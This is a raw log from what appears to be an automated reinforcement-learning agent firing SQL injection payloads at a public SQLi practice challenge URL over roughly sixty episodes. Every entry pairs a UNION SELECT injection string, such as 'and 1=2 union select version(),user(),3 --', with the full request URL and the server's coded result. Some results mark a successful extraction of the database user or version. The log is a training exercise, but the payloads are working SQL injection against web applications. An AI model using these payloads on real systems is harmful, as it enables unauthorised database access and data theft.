Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user()

  0%|          | 2271/1000000 [13:09:45<10973:49:46, 39.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2272/1000000 [13:09:46<7753:23:46, 27.98s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query wi

  0%|          | 2273/1000000 [13:11:57<16291:06:16, 58.78s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'unio

  0%|          | 2274/1000000 [13:13:09<17390:26:02, 62.75s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2275/1000000 [13:13:10<12242:39:31, 44.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2276/1000000 [13:13:11<8636:15:22, 31.16s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2277/1000000 [13:13:11<6108:25:07, 22.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2278/1000000 [13:13:12<4342:06:22, 15.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax

  0%|          | 2279/1000000 [13:13:19<3584:46:38, 12.93s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2280/1000000 [13:13:20<2586:32:38,  9.33s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2281/1000000 [13:13:20<1875:44:08,  6.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2282/1000000 [13:13:22<1448:22:30,  5.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2283/1000000 [13:13:24<1158:32:12,  4.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2284/1000000 [13:13:25<874:59:54,  3.16s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
h

  0%|          | 2285/1000000 [13:14:16<4912:19:36, 17.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2286/1000000 [13:14:17<3508:15:24, 12.66s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2287/1000000 [13:14:18<2519:34:53,  9.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server respon

  0%|          | 2288/1000000 [13:17:17<16659:31:57, 60.11s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. 

  0%|          | 2289/1000000 [13:18:39<18494:28:15, 66.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2290/1000000 [13:18:40<13008:38:36, 46.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2291/1000000 [13:18:41<9177:34:39, 33.12s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2292/1000000 [13:18:42<6495:04:54, 23.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2293/1000000 [13:18:42<4609:35:12, 16.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2294/1000000 [13:18:43<3287:27:31, 11.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2295/1000000 [13:18:44<2366:47:55,  8.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2296/1000000 [13:18:45<1721:05:41,  6.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2297/1000000 [13:18:46<1268:21:35,  4.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php

  0%|          | 2298/1000000 [13:18:58<1948:24:50,  7.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2299/1000000 [13:18:59<1424:31:04,  5.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error

  0%|          | 2300/1000000 [13:20:23<7967:12:16, 28.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2301/1000000 [13:20:24<5636:50:12, 20.34s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2302/1000000 [13:20:25<4026:10:02, 14.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'u

  0%|          | 2303/1000000 [13:20:33<3564:47:01, 12.86s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2304/1000000 [13:20:34<2555:26:25,  9.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2305/1000000 [13:20:35<1848:18:28,  6.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2306/1000000 [13:20:37<1487:11:09,  5.37s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server respons

  0%|          | 2307/1000000 [13:21:17<4309:56:38, 15.55s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2308/1000000 [13:21:17<3081:50:15, 11.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2309/1000000 [13:21:18<2220:46:39,  8.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3

  0%|          | 2310/1000000 [13:21:38<3184:05:48, 11.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2311/1000000 [13:21:38<2291:23:23,  8.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2312/1000000 [13:21:39<1673:51:42,  6.04s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
S

  0%|          | 2313/1000000 [13:22:22<4690:43:07, 16.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2314/1000000 [13:22:22<3353:45:04, 12.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2315/1000000 [13:22:23<2412:08:36,  8.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Serve

  0%|          | 2316/1000000 [13:23:02<4905:14:35, 17.70s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2317/1000000 [13:23:03<3533:28:41, 12.75s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 2318/1000000 [13:23:44<5879:04:20, 21.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2319/1000000 [13:23:45<4176:59:35, 15.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2320/1000000 [13:23:46<2998:58:38, 10.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2321/1000000 [13:23:47<2171:22:14,  7.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2322/1000000 [13:23:47<1589:42:49,  5.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Se

  0%|          | 2323/1000000 [13:24:20<3814:27:54, 13.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2324/1000000 [13:24:21<2735:31:30,  9.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server respons

  0%|          | 2325/1000000 [13:24:30<2715:12:57,  9.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2326/1000000 [13:24:31<1965:03:07,  7.09s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Sy

  0%|          | 2327/1000000 [13:26:48<12729:09:53, 45.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,us

  0%|          | 2328/1000000 [13:27:11<10865:53:09, 39.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax 

  0%|          | 2329/1000000 [13:28:19<13216:34:55, 47.69s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
